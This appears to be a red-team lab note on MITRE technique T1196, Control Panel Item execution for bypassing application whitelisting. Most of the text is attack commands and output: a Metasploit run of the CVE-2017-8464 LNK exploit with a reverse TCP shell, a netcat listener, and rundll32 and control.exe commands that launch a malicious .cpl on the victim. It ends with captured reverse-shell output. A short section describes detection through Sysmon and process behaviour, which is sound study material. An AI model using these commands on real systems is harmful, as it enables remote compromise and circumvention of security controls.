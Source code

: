 ```yaml
---
description: Control Panel Item code execution - bypass application whitelisting.
---
```


# T1196: Control Panel Item

## Execution

{% code-tabs %}
{% code-tabs-item title="attacker@local" %}
```bash
msfconsole
use windows/local/cve_2017_8464_lnk_lpe
set payload windows/x64/shell_reverse_tcp
set lhost 10.0.0.5
exploit

root@~# nc -lvp 4444
listening on [any] 4444 ...
```
{% endcode-tabs-item %}
{% endcode-tabs %}

We can see that the .cpl is simply a DLL with DllMain function exported:

![](../.gitbook/assets/lnk-dllmain%20%281%29.png)

A quick look at the dissasemble of the dll suggests rundll32 will be spawned and thread code injection may take place:

![](../.gitbook/assets/lnk-dissasm.png)

{% code-tabs %}
{% code-tabs-item title="attacker@victim" %}
```bash
control.exe .\FlashPlayerCPLApp.cpl
# or
rundll32.exe shell32.dll,Control_RunDLL file.cpl
# or
rundll32.exe shell32.dll,Control_RunDLLAsUser file.cpl
```
{% endcode-tabs-item %}
{% endcode-tabs %}

{% code-tabs %}
{% code-tabs-item title="attacker@local" %}
```text
10.0.0.2: inverse host lookup failed: Unknown host
connect to [10.0.0.5] from (UNKNOWN) [10.0.0.2] 49346
Microsoft Windows [Version 6.1.7601]
Copyright (c) 2009 Microsoft Corporation.  All rights reserved.
```
{% endcode-tabs-item %}
{% endcode-tabs %}

## Observations

Note how rundll32 spawns a command prompt and establishes a connection back to the attacker -  these are signs that should raise suspicion when you come across something like this in your environment:

![](../.gitbook/assets/lnk-connection.png)

As always, sysmon logging can help find suspicious commandlines being executed in your environment:

![](../.gitbook/assets/lnk-sysmon%20%281%29.png)

## Bonus - Create Shortcut With PowerShell

```bash
$TargetFile = "$env:SystemRoot\System32\calc.exe"
$ShortcutFile = "C:\experiments\cpl\calc.lnk"
$WScriptShell = New-Object -ComObject WScript.Shell
$Shortcut = $WScriptShell.CreateShortcut($ShortcutFile)
$Shortcut.TargetPath = $TargetFile
$Shortcut.Save()
```

{% embed url="https://attack.mitre.org/wiki/Technique/T1196" %}

{% embed url="https://github.com/redcanaryco/atomic-red-team/blob/master/atomics/T1060/T1060.md" %}

